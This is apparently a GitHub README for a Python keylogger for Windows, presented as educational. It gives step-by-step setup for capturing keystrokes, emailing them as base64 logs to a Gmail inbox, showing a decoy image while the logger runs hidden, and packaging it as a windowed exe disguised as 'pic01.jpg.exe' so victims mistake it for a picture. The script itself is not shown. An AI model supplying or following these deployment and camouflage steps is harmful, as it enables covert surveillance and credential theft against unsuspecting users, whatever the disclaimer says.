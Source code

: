 # 🔑 Python Keylogger for Windows (Educational Use Only)

<div align="center">

[![Python](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white)](https://python.org)
[![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)](https://windows.microsoft.com)
[![Gmail](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white)](https://gmail.com)

</div>

> ⚠️ **CRITICAL WARNING**:  
> This project is for **EDUCATIONAL USE ONLY**—never use it on any computer or account without explicit, informed consent. Unauthorized use is **illegal** and punishable by law.

---

## 📖 Overview

This repository demonstrates basic **keylogger and data exfiltration concepts** for cybersecurity education, including:

- **Keystroke capture** using `pynput`
- **Obfuscated, random log file creation**
- **Automatic keystroke emailing via Gmail**
- **User deception: shows a benign image on launch while the logger runs in the background**

---

## 🗂️ Project Structure

Keylogger/
├─ main.py # Main script containing the keylogger logic (see below)
├─ walpaper.jpg # Image shown to user (can use any .jpg, rename as needed)

---

## ⚙️ Setup & Configuration

### 1. Clone or Download the Repository
```
git clone https://github.com/Dawn-Fighter/Keylogger.git
cd Keylogger
```


### 2. Install Dependencies
```
pip install pynput pillow
```


### 3. Gmail App Password Configuration

**You must use a Gmail App Password, not your normal account password.**

- Go to [Google Account – Security](https://myaccount.google.com/security)
- Enable 2-Step Verification
- Generate an "App Password" for "Mail" (16 characters)
- **Never share your App Password!**

### 4. Add Your Credentials to the Script

Open `keylogger.py` and find the following section inside the `tx(lf)` function:

s, r, pw = "", "", ""



Replace with your actual details:

s = "your.email@gmail.com" # Sender Gmail address
r = "logs.receiver@gmail.com" # Recipient email address (can be the same as sender)
pw = "your-16-char-app-password" # Your Gmail app password



**Example**:

s, r, pw = "mylogsender@gmail.com", "mydest@gmail.com", "abcd efgh ijkl mnop"


- **`s`**: Your sending Gmail address
- **`r`**: Email address to receive log files
- **`pw`**: Gmail App Password (not your main Gmail password)

---

## 🖼️ Add Your Display Image

- Place your actual image as `walpaper.jpg` in the **same folder** as `keylogger.py`.
    - Or change `"walpaper.jpg"` to your own image filename in the script.

---

## 💻 Usage

### A. Running as a Python Script
```
python main.py

```


- Briefly displays the image.
- Runs the keylogger silently in the background.
- Sends encrypted (base64) keystroke logs via email every 200–450 seconds.
- Terminates only when you kill the process (e.g., via Task Manager).

### B. Converting to a Standalone `.exe` (Optional)

1. **Install PyInstaller:**
    ```
    pip install pyinstaller
    ```
2. **Bundle the image with your exe:**
    ```
    pyinstaller --onefile --windowed --add-data "walpaper.jpg;." keylogger.py
    ```
    - The exe will appear in the `dist/` folder.
    - For a disguised icon, convert your image to `.ico` and add `--icon=youricon.ico`.

3. **Rename Output for Camouflage:**
    - Example: `pic01.jpg.exe`
    - **Note**: Only users with file extensions hidden will see it as an image.

---

## 📨 Reading the Logs

The received attachment (`.dat` file) is base64-encoded keystrokes. To decode:

### On Windows (using certutil):
```
certutil -decode yourfile.dat output.txt
```

### On Linux/macOS:
```
base64 -d yourfile.dat > output.txt
```

Or use any online Base64 decoder.

---

## 🛡️ Security, Ethics & Disclaimer

- **Educational use only**: Never run on another person's computer or network.
- **Antivirus detection**: Modern AV products will likely flag and quarantine this executable.
- **You are fully responsible** for any legal or ethical violations resulting from misuse.

---

## 📄 License

MIT License. See `LICENSE` for details.

---

<div align="center">

**Made with ❤️ for Cybersecurity Education**

</div>

---


